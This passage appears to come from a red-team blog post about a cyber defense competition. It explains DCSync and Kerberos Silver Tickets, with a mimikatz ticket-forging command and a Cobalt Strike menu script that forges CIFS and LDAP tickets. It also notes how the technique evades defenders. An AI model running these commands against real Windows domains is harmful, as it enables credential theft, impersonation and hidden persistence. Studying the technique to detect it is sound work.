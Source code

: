 This code reads the contents of the provided file, `$3['userlist']`, into an array, loops through each Beacon ID, and runs DCSync on each username in the target user array.

For more on DCSync and its detection, check out Sean Metcalf's ([@PyroTek3](https://twitter.com/PyroTek3)) post [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729).

## Silver Tickets

The Windows Meta Team made heavy use of [Kerberos Silver Tickets](https://adsecurity.org/?p=2011) for persistence and pivoting this year. In short, Silver Tickets are issued to a user to authenticate the user to a specific service on a target system. That means we'll need to create a new Silver Ticket for each service and host we want to compromise; however, Silver Tickets provide a few benefits over Golden Tickets:

* Silver Tickets are generated using the target system's machine password, so even if the Blue Team changes the *krbtgt* account password, we can still generate Silver Tickets
* Silver Tickets are valid until the target system's machine password changes, which is every 30 days by default. (We can disable that with a registry key if needed)
* Silver Tickets don't generate traffic to the domain controller by default
* Silver Tickets are often overlooked by defenders, especially in a competition where you expect Golden Tickets to be used liberally

Here's an example of generating a silver ticket in Cobalt Strike with mimikatz:
```bash
mimikatz kerberos::golden /user:Administrator /domain:example.com /sid:S-1-5-21-332754124-7074016221-3475835846 /target:wkst01.example.com /rc4:8846F7EAEE8FB117AD06BDD830B7586C /service:cifs /ptt
```

Here's a breakdown of the required parameters:
* **user** - the user we will impersonate (can even imitate a non-existent user for 20 minutes!)
* **domain** - the FQDN of the target domain (i.e. example.com)
* **sid** - the domain SID (don't include the RID.) The SID is included in `whoami /all` output.
* **target** - the FQDN of the target host
* **rc4** - the NT hash of the target host's machine account
* **service** - the target service. For a list of common target services, see Sean Metcalf's [SPN list](https://adsecurity.org/?page_id=183).
* **ptt** - tells Mimikatz to inject the ticket in the current session, rather than outputting a file

During the competition, I hardcoded every machine hash for the top few services we anticipated needing. A condensed version of that script would look something like this:

```bash
popup beacon_bottom {
menu "Silver Tickets" {
	menu "Silver Tickets - CIFS" {
		item "WKST01" {
			local('$bid');
			foreach $bid ($1) {
				bmimikatz($1, 'kerberos::golden /user:administrator /domain:example.com /sid:S-1-5-21-xxxxxxxxx-yyyyyyyyyy-zzzzzzzzzz /target:wkst01.example.com /rc4:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /service:cifs /ptt');
			}
		}
    }
	menu "Silver Tickets - LDAP" {
		item "WKST01" {
			local('$bid');
			foreach $bid ($1) {
				bmimikatz($1, 'kerberos::golden /user:administrator /domain:example.com /sid:S-1-5-21-xxxxxxxxx-yyyyyyyyyy-zzzzzzzzzz /target:wkst01.example.com /rc4:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /service:ldap /ptt');
			}
		}
}
}
```